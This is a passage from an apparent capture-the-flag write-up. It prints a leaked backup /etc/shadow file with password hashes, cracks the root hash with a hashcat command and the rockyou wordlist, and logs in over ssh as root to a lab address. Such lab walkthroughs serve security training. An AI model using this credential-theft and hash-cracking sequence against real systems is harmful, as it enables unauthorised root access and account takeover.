 ```
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```

So it was a backup copy of the **/etc/shadow** file and we have some password hashes to crack.

I try to crack the password for **melodias** but am unsuccessful. I do however crack the **root** password using **hashcat**:

`hashcat -m 1800 -w 3 -D 1,2 hash.txt rockyou.txt`

```
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:<REDACTED>
```

<br>

## System Access

Now that we have the username and password let's **ssh** over:

`ssh root@10.10.77.246`

```
root@10.10.77.246's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
